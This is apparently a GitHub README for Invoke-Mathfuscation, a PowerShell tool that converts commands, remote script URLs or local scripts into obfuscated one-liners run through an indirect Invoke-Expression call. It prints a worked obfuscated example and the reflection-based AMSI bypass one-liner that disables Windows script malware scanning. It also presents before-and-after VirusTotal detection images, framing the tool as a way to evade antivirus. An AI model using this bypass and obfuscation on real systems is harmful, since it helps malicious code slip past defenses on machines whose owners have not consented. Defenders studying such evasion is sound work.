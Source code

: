 # Invoke-Mathfuscation

![alt text](https://raw.githubusercontent.com/bobby-tablez/Invoke-Mathfuscation/main/mathfuscation.png)

A quick command line utility that converts individual characters of an input string into char values. It then takes a user-supplied number value and uses it to ofuscate the individual char values. Lastly, it outputs a simple obfuscated one-liner using random polymorphic variables which will execute the original string. Currently supports:

* Remote URL (ie: http://example.com/dir/remote.ps1)
* Local File (ie: C:\tmp\local.ps1)
* PowerShell Command

When prompted, specify a command to invoke, remote URL or full local path to a .ps1 file, then supply the number offset which will be added to the char values. 

Example: 
```Write-Host "Hello world!"``` using 6000 as an offset:
```powershell
@(6087,6114,6105,6116,6101,6045,6072,6111,6115,6116,6032,6034,6072,6101,6108,6108,6111,6032,6119,6111,6114,6108,6100,6033,6034)| % {$wdAQf=$wdAQf+[char]($_-6000)};.(gcm ?e[?x])($wdAQf)
```

# VirusTotal Detections

Example: AMSI Bypass using Using Matt Graebers Reflection method:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Unmathfuscated:
![alt text](https://raw.githubusercontent.com/bobby-tablez/Invoke-Mathfuscation/main/mathfuscate_amsi_bypass_1.png)

Mathfuscated:
![alt text](https://raw.githubusercontent.com/bobby-tablez/Invoke-Mathfuscation/main/mathfuscate_amsi_bypass_2.png)



*Disclaimer: I'm not a programmer*

Use at your own risk! For educational purposes only. 


